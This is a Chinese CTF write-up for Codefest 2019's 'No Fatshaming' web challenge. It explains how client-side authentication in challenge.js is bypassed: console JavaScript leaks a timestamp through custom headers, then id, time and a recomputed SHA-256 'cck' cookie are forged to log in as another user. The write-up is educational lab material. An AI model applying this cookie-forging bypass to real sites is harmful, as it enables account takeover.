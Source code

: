 難度 :  :star::star:
  
![question](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic1.png)
![question2](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic2.png)
![question3](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic3.png)
![question4](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic4.png)
![question5](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic5.png)

解題流程: <br>
        很簡潔的網頁, 只有登入和註冊, 登入後什麼東西都沒有 <br>
        用 sqlmap 和 xss 都沒有結果, 只能開始看看前端的 code <br>
        發現它引入一個客製化的 challenge.js <br>
        ![bug](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/bug.png)<br>
        進去一看發現是認證的 code , 認證 code 寫在前端往往不怎麼安全 <br>
        看一下 code 寫些什麼 <br>
        首先, 命名的方式很差所以先[美化](http://www.jsnice.org/)一下<br>
        美化後的結果放在 nice.js <br>
        從 nice.js 得知, 當按下 Log in! 後會去執行 setup
```javascript=
$("#login-form")["submit"]((result) => {
    result["preventDefault"]();
    setUpUserAutosuggest();
  });
```
 setup  會去檢查註冊時間和 cookie 設的是否一樣
 ``` javascript=
 if (data["time"] != val) {
              config["failure"]();
}
```
一樣的話執行 login 否則執行 doLogin <br>
而 login 會檢查 id 和 cck <br>
其中, cck 由 factory 計算而來 <br>
因此, 思緒就清楚了, <b>我們要的是 id cck 和 time</b>
id 可以自行控制 , cck 由 id 和 time 決定 , 因此關鍵在 time <br>
而我們得知 time 會在 setup 被用到, 所以設計自己的 setup 並輸入到 console <br>
```javascript=
function setup(id) {
    $["ajax"]({
          "url" : "api/login/",
          "type" : "POST",
          "headers" : {
            "X-Cache-Command" : "META",
            "X-Cache-User" : id
          },
          "success" : (data) => {
                console.log(data);
            }
    });
}
```
( 什麼都不要檢查, 把接收到的 data 全部吐出來 )<br>
輸入 setup(1), 我們就拿到 time 了 <br>
接著我們透過 _build 幫我們設定 cookie <br>
```javascript=
function factory(spec) {
    var shaObj = new jsSHA("SHA-256", "TEXT");
    var existing = spec["id"] + " 000 114328 000 " + spec["time"];
    shaObj["update"](existing);
    var KongPluginsService = shaObj["getHash"]("HEX");
    return KongPluginsService;
}
function _build(value) {
    Cookies["set"]("id", value["id"]);
    Cookies["set"]("time", value["time"]);
    Cookies["set"]("cck", factory(value));
  }
```
因為 _build 會用到 factory 所以 factory 也要一併傳入 <br>
接著, 輸入 _build({"id":"1", "time": "剛剛接收到的"}) <br>
最後, 將 username 也就是 id 輸入 1, 按 Log in! 就能成功進去了 , 但 flag 在 id=6 的身上 <br>
